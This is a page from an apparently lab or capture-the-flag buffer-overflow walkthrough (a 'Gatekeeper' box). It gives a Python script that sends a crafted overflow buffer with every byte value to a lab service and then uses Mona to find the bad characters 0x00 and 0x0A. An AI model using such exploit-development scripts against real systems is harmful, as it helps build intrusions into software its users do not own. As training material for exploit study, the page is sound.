


One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Pyrhon
#!/usr/bin/python

import socket,sys

badchar_test = ""
badchars = [0x00, 0x0A]
RHOST = "192.168.0.227"
RPORT = 31337

for i in range(0x00, 0xFF+1):
    if i not in badchars:
        badchar_test += chr(i)
        
with open("badchar_test.bin", "wb") as f:
    f.write(badchar_test)
    
buffer = "A"*146 + "B"*4 + badchar_test

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":



We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:



We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
